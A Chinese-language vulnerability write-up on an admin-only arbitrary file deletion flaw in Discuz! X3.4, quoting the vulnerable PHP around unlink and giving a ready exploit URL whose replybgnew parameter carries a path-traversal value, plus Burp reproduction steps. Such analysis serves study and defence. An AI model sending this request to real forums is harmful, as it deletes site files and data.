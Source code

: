 Discuz! X3.4 后台任意文件删除
=============================

一、漏洞简介
------------

后台任意文件删除，需要有管理员的权限。

二、漏洞影响
------------

Discuz!X V3.4

三、复现过程
------------

### 漏洞分析

分析一下该请求的流程。

请求URL：`/dz/upload/admin.php?action=forums&operation=edit&fid=2&replybgnew=../../../testfile.txt&delreplybg=1`

在`admin.php`中接收了action参数，在第58行经过`admincpfile`函数处理后返回文件路径，并包含该文件。

    if($admincp->allow($action, $operation, $do) || $action == 'index') {
            require $admincp->admincpfile($action);

看一下该函数的处理过程：

    function admincpfile($action) {
            return './source/admincp/admincp_'.$action.'.php';
        }

经过处理返回的内容是：`./source/admincp/admincp_forums.php`，也就来到了漏洞存在的地方。

根据if/else的判断条件，进入else中的代码：

    if(!submitcheck('detailsubmit')) {
      ......
    }
    else{

    }

造成漏洞的代码：

    if(!$multiset) {
      if($_GET['delreplybg']) {
        $valueparse = parse_url($_GET['replybgnew']);
        if(!isset($valueparse['host']) && file_exists($_G['setting']['attachurl'].'common/'.$_GET['replybgnew'])) {
          @unlink($_G['setting']['attachurl'].'common/'.$_GET['replybgnew']);
        }
        $_GET['replybgnew'] = '';
      }

`$multiset`默认为0，只要不给该参数赋值就满足条件进入if语句。

第二个if语句，检查GET参数`delreplybg`有没有内容，然后做了下检测，检测parse\_url函数返回的结果中有没有host这个变量，来确保GET参数`replybgnew`不是url，但是并不影响传入文件路径。

这里`$_G['setting']['attachurl'`的值为`data/attachment/`，再拼接上`common/`和`$_GET['replybgnew']`，这样路径就可控了。通过unlink达到文件删除的目的。

### 漏洞复现

登陆后台，进入论坛-\>模块管理-\>编辑板块，使用burp拦截提交的数据。

![](./resource/Discuz!X3.4后台任意文件删除/media/rId26.png)

![](./resource/Discuz!X3.4后台任意文件删除/media/rId27.png)

发送，查看文件发现被删除。

![](./resource/Discuz!X3.4后台任意文件删除/media/rId28.png)

参考链接
--------

> https://xz.aliyun.com/t/7492\#toc-7
